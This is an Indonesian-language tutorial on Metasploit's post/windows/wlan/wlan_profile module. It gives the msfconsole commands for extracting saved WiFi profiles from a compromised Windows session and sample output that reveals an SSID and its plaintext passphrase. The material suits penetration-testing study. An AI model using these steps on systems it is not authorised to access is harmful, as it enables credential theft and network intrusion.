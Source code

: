 # wlan_profile 

Module `wlan_profile` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengambil informasi profil jaringan WiFi yang tersimpan di komputer target, termasuk `SSID`, `jenis autentikasi`, dan `password` jika tersedia. Modul ini bekerja setelah akses ke sistem berhasil diperoleh (misalnya via meterpreter) dan memanfaatkan perintah internal Windows seperti netsh wlan show profile untuk mengekstrak data jaringan secara otomatis.

## Cara Penggunaan di Metasploit

```
use post/windows/wlan/wlan_profile
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[+] Wireless LAN Profile Information 
GUID: {28b9c93f-a298-45f8-b88c-8f898895ee2b} Description: Realtek 8814AU Wireless LAN 802.11ac USB NIC State: The interface is not connected to any network.
 Profile Name: COMPASS CIKARANG
<?xml version="1.0"?>
<WLANProfile xmlns="http://www.microsoft.com/networking/WLAN/profile/v1">
	<name>COMPASS CIKARANG</name>
	<SSIDConfig>
		<SSID>
			<hex>434F4D504153532043494B4152414E47</hex>
			<name>COMPASS CIKARANG</name>
		</SSID>
	</SSIDConfig>
	<connectionType>ESS</connectionType>
	<connectionMode>auto</connectionMode>
	<MSM>
		<security>
			<authEncryption>
				<authentication>WPA2PSK</authentication>
				<encryption>AES</encryption>
				<useOneX>false</useOneX>
			</authEncryption>
			<sharedKey>
				<keyType>passPhrase</keyType>
				<protected>false</protected>
				<keyMaterial>qwerty12345</keyMaterial>
			</sharedKey>
		</security>
	</MSM>
	<MacRandomization xmlns="http://www.microsoft.com/networking/WLAN/profile/v3">
		<enableRandomization>false</enableRandomization>
	</MacRandomization>
</WLANProfile>

[*] WlanAPI Handle Closed Successfully
[*] Post module execution completed
```
